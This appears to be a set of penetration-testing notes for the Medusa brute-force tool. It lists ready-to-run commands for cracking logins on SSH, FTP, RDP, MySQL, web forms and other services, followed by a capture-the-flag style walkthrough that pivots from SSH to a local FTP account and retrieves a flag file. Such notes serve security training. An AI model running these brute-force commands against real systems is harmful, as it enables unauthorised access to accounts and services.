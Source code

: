 ## Medusa Modules
|Medusa Module|Service/Protocol|Description|Usage Example|
|---|---|---|---|
|FTP|File Transfer Protocol|Brute-forcing FTP login credentials, used for file transfers over a network.|`medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt`|
|HTTP|Hypertext Transfer Protocol|Brute-forcing login forms on web applications over HTTP (GET/POST).|`medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^`|
|IMAP|Internet Message Access Protocol|Brute-forcing IMAP logins, often used to access email servers.|`medusa -M imap -h mail.example.com -U users.txt -P passwords.txt`|
|MySQL|MySQL Database|Brute-forcing MySQL database credentials, commonly used for web applications and databases.|`medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt`|
|POP3|Post Office Protocol 3|Brute-forcing POP3 logins, typically used to retrieve emails from a mail server.|`medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt`|
|RDP|Remote Desktop Protocol|Brute-forcing RDP logins, commonly used for remote desktop access to Windows systems.|`medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt`|
|SSHv2|Secure Shell (SSH)|Brute-forcing SSH logins, commonly used for secure remote access.|`medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt`|
|Subversion (SVN)|Version Control System|Brute-forcing Subversion (SVN) repositories for version control.|`medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt`|
|Telnet|Telnet Protocol|Brute-forcing Telnet services for remote command execution on older systems.|`medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt`|
|VNC|Virtual Network Computing|Brute-forcing VNC login credentials for remote desktop access.|`medusa -M vnc -h 192.168.1.100 -P passwords.txt`|
|Web Form|Brute-forcing Web Login Forms|Brute-forcing login forms on websites using HTTP POST requests.|`medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"`|

Command to launch a brute-force attack against SSH service on given IP Address : `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh `

Command to launch a Basic HTTP Authentication Attack : `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`

Command to test for empty or default passwords : `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

## Web Services
To login into SSH Service where username is given and password is brute-forced using dictionary : `medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3`
Command for SSH to gain access : `ssh sshuser@<IP> -p PORT`

Targeting FTP Server : `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5`  - Use this when into SSH Session of the Victim
To login into FTP Server : `ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost`
To download file from FTP Server use the command : `get flag.txt`
### Expanding the Attack Surface
To list all services and and open ports : `ntestat -tulpn | grep LISTEN`
For further recon, we can use : `nmap localhost`

